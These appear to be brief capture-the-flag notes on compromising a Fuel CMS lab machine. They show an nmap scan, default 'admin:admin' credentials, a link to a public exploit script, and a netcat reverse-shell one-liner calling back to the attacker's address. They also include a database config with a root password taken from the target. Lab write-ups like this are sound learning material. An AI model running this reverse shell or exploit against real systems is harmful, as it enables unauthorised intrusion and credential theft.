**Tristan Gomez**

nmap
```
└─$ sudo nmap -Pn 10.10.202.5
[sudo] password for gomez22: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-20 12:02 PDT
Nmap scan report for 10.10.202.5
Host is up (0.19s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 49.31 seconds
```

`admin:admin`
`https://github.com/AssassinUKG/fuleCMS/blob/main/fuelCMS.py`

`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.248.108 1111 >/tmp/f"`


```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

```
